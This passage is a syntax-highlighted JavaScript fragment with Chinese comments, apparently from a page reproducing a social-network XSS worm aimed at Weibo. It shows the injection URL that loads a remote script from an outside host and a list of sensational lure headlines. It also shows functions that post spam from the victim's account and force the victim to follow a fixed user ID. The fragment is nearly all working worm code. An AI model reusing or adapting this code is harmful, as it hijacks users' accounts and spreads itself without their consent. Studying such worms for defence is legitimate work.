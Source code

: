     <span class="hljs-comment">// 使用短地址服务，构造 XSS 传播连接，隐藏自己的恶意 js 脚本，</span>
    <span class="hljs-comment">// 这里正是 XSS 漏洞的触发位置</span>
 <span class="hljs-comment">//http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=upd</span>
&nbsp;&nbsp;&nbsp;&nbsp;link&nbsp;=&nbsp;<span class="hljs-string">'&nbsp;http://163.fm/PxZHoxn?id='</span>&nbsp;+&nbsp;<span class="hljs-keyword">new</span>&nbsp;<span class="hljs-built_in">Date</span>().getTime();;
    <span class="hljs-comment">// 话题列表&nbsp;</span>
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">var</span>&nbsp;msgs&nbsp;=&nbsp;[
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-string">'郭美美事件的一些未注意到的细节：'</span>,
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-string">'建党大业中穿帮的地方：'</span>,
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-string">'让女人心动的 100 句诗歌：'</span>,
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-string">'3D 肉团团高清普通话版种子：'</span>,
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-string">'这是传说中的神仙眷侣啊：'</span>,
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-string">'惊爆!范冰冰艳照真流出了：'</span>,
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-string">'杨幂被爆多次被潜规则:'</span>,
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-string">'傻仔拿锤子去抢银行：'</span>,
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-string">'可以监听别人手机的软件：'</span>,
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-string">'个税起征点有望提到 4000：'</span>]; 

    <span class="hljs-comment">//随机选取话题,加上之前的传播连接作为微博内容&nbsp;</span>
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">var</span>&nbsp;msg&nbsp;=&nbsp;msgs[<span class="hljs-built_in">Math</span>.floor(<span class="hljs-built_in">Math</span>.random()*msgs.length)]&nbsp;+&nbsp;link;
&nbsp;&nbsp;&nbsp;&nbsp;msg&nbsp;=&nbsp;<span class="hljs-built_in">encodeURIComponent</span>(msg);&nbsp;<span class="hljs-comment">//对内容进行 Url 编码</span>
&nbsp;&nbsp;&nbsp;&nbsp;<span class="hljs-keyword">return</span>&nbsp;msg;
}
<span class="hljs-comment">// 利用 Ajax 发送 POST 请求</span>
<span class="hljs-function"><span class="hljs-keyword">function</span>&nbsp;<span class="hljs-title">post</span>(<span class="hljs-params">url,data,sync</span>)</span>{
&nbsp;&nbsp;&nbsp;&nbsp;xmlHttp&nbsp;=&nbsp;createXHR();
&nbsp;&nbsp;&nbsp;&nbsp;xmlHttp.open(<span class="hljs-string">"POST"</span>,url,sync);
&nbsp;&nbsp;&nbsp;&nbsp;xmlHttp.setRequestHeader(<span class="hljs-string">"Accept"</span>,<span class="hljs-string">"text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"</span>);
&nbsp;&nbsp;&nbsp;&nbsp;xmlHttp.setRequestHeader(<span class="hljs-string">"Content-Type"</span>,<span class="hljs-string">"application/x-www-form-urlencoded;&nbsp;charset=UTF-8"</span>);
&nbsp;&nbsp;&nbsp;&nbsp;xmlHttp.send(data);
}
<span class="hljs-comment">// 发表微博，话题随机</span>
<span class="hljs-function"><span class="hljs-keyword">function</span>&nbsp;<span class="hljs-title">publish</span>(<span class="hljs-params"></span>)</span>{
&nbsp;&nbsp;&nbsp;&nbsp;url&nbsp;=&nbsp;<span class="hljs-string">'http://weibo.com/mblog/publish.php?rnd='</span>&nbsp;+&nbsp;<span class="hljs-keyword">new</span>&nbsp;<span class="hljs-built_in">Date</span>().getTime();
&nbsp;&nbsp;&nbsp;&nbsp;data&nbsp;=&nbsp;<span class="hljs-string">'content='</span>&nbsp;+&nbsp;random_msg()&nbsp;+&nbsp;<span class="hljs-string">'&amp;pic=&amp;styleid=2&amp;retcode='</span>;&nbsp;<span class="hljs-comment">//使用 random_msg 生成随机话题</span>
&nbsp;&nbsp;&nbsp;&nbsp;post(url,data,<span class="hljs-literal">true</span>);
}
<span class="hljs-comment">// 自动关注用户</span>
<span class="hljs-function"><span class="hljs-keyword">function</span>&nbsp;<span class="hljs-title">follow</span>(<span class="hljs-params"></span>)</span>{
&nbsp;&nbsp;&nbsp;&nbsp;url&nbsp;=&nbsp;<span class="hljs-string">'http://weibo.com/attention/aj_addfollow.php?refer_sort=profile&amp;atnId=profile&amp;rnd='</span>&nbsp;+&nbsp;<span class="hljs-keyword">new</span>&nbsp;<span class="hljs-built_in">Date</span>().getTime();
    <span class="hljs-comment">// 使用当前页面存储的$CONFIG.$uid 构造自动关注数据包</span>
&nbsp;&nbsp;&nbsp;&nbsp;data&nbsp;=&nbsp;<span class="hljs-string">'uid='</span>&nbsp;+&nbsp;<span class="hljs-number">2201270010</span>&nbsp;+&nbsp;<span class="hljs-string">'&amp;fromuid='</span>&nbsp;+&nbsp;$CONFIG.$uid&nbsp;+&nbsp;<span class="hljs-string">'&amp;refer_sort=profile&amp;atnId=profile'</span>;
&nbsp;&nbsp;&nbsp;&nbsp;post(url,data,<span class="hljs-literal">true</span>);